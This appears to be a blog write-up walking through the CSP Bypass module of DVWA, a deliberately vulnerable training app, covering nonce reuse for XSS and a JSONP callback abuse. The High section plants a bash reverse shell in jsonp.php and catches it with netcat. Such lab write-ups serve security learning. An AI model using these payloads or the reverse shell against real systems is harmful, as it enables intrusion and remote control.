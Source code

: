 ```yaml
---
title: DVWA - CSP Bypass
date: 2023-12-18
categories: [DVWA]
tags: [dvwa, csp, csp-bypass, burp, xss, javascript, js, php, nonce]
img_path: /assets/dvwa/csp_bypass
published: true
image:
    path: ../dvwa_logo.png
---
```


## Information

- [How to install dvwa on Kali](https://www.kali.org/tools/dvwa/).
- [Official GitHub repository](https://github.com/digininja/DVWA).

> The DVWA server itself contains instructions about almost everything.

_**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment._

_The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface._

![](dvwa_home.png){: width='70%' }

The DVWA server has **4 different security levels** which can be set as seen below:

![](security_levels.png){: width='70%' }

- **Low**: This security level is completely vulnerable and has no security measures at all. It's use is to be as an example of how web application vulnerabilities manifest through bad coding practices and to serve as a platform to teach or learn basic exploitation techniques.
- **Medium**: This setting is mainly to give an example to the user of bad security practices, where the developer has tried but failed to secure an application. It also acts as a challenge to users to refine their exploitation techniques.
- **High**: This option is an extension to the medium difficulty, with a mixture of harder or alternative bad practices to attempt to secure the code. The vulnerability may not allow the same extent of the exploitation, similar in various Capture The Flags (CTFs) competitions.
- **Impossible**: This level should be secure against all vulnerabilities. It is used to compare the vulnerable source code to the secure source code.

## Content Security Policy (CSP) Bypass

CSP is used to **define where scripts and other resources can be loaded or executed from**. This module will walk you through ways to bypass the policy based on common mistakes made by developers. None of the vulnerabilities are actual vulnerabilities in CSP, they are vulnerabilities in the way it has been implemented.

**Objective**: Bypass Content Security Policy (CSP) and execute JavaScript in the page.

## Security: Low
> _Examine the policy to find all the sources that can be used to host external script files ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_low_source.php))._

> This task has an active issue: [CSP Bypass can't be solved with Hastebin anymore (once again) #539](https://github.com/digininja/DVWA/issues/539)
{: .prompt-warning}

## Security: Medium
> _The CSP policy tries to use a nonce to prevent inline scripts from being added by attackers ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_medium_source.php))._

1. If we have a look at the source code, we will see that a `nonce` has been included:

    ```php
    $headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";

    header($headerCSP);

    // Disable XSS protections so that inline alert boxes will work
    header ("X-XSS-Protection: 0");

    # <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>
    ```

    Let's find out what exactly [`nonce`](https://blog.mozilla.org/security/2014/10/04/csp-for-the-web-we-have/) is:

    _A CSP with a nonce-source might look like this:_

    `content-security-policy: default-src 'self'; script-src 'nonce-2726c7f26c'`

    And the corresponding document might contain a script element that looks like this:

    ```php
    <script nonce="2726c7f26c">
    alert(123);
    </script>
    ```

    There are 2 things to note here:
    1. It’s important that the nonce changes for each response.
    2. It’s important that the nonce is sufficiently hard to predict.

    _Now, because the nonce changes in a way that isn’t predictable, **the attacker doesn’t know what to inject** and so, by only allowing script (or style) elements with valid nonce attributes, we can be sure that injections will fail._

2. Essentialy, in order to bypass CSP we now need to know the `nonce`'s value. If we try to XSS as usual, it won't work:

    ```javascript
    <script>alert("XSS")</script>
    ```

    ![](medium_xss_fail.png)

3. But if we pass our payload along with the `nonce`'s value, it will work just fine:

    ```javascript
    <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert("XSS")</script>
    ```

    ![](medium_xss_nonce.png)

## Security: High
> _The page makes a JSONP call to source/jsonp.php passing the name of the function to callback to, you need to modify the jsonp.php script to change the callback function ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_high_source.php))._

### Reverse shell

1. On this level the page makes a call to `jsonp.php` and executes whatever code is there:

    ![](home_high.png)

    ```shell
    $ cat /usr/share/dvwa/vulnerabilities/csp/source/jsonp.php
    <?php
    header("Content-Type: application/json; charset=UTF-8");

    if (array_key_exists ("callback", $_GET)) {
            $callback = $_GET['callback'];
    } else {
            return "";
    }

    $outp = array ("answer" => "15");

    echo $callback . "(".json_encode($outp).")";
    ?>
    ```

2. We can make a backup of this file and replace it with one that contains our code in it, such as a [php reverse shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell):

    ```shell
    $ sudo cp jsonp.php jsonp.php.bak

    $ ls
    high.js  high.php  impossible.js  impossible.php  jsonp_impossible.php  jsonp.php  jsonp.php.bak  low.php  medium.php

    $ cat jsonp.php
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'");?>
    ```

3. If we set up a listener and click the *Solve the sum* button, we should be able to catch the reverse shell:

    ```shell
    $  nc -lvnp 1337
    listening on [any] 1337 ...
    ```

    ![](medium_revshell.png)

### Command execution

1. If we click the *Solve the sum* button and intercept the traffic with Burp, we will notice the `callback` parameter:

    ![](high_burp.png)

2. We can modify `callback`'s value by passing a simple payload and then execute our payload by sending the request:

    ![](high_burp2.png)

    ![](high_alert.png)

## Security: Impossible
> _This level is an update of the high level where the JSONP call has its callback function hardcoded and the CSP policy is locked down to only allow external scripts ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_impossible_source.php))._

## Resources

- Cryptocat's [video walkthrough](https://www.youtube.com/watch?v=ERksJHl0DC0).
- [Content Security Policy Reference](https://content-security-policy.com/).
- Mozilla's [CSP for the web we have](https://blog.mozilla.org/security/2014/10/04/csp-for-the-web-we-have/).
- PortSwigger's [Content Security Policy](https://portswigger.net/web-security/cross-site-scripting/content-security-policy).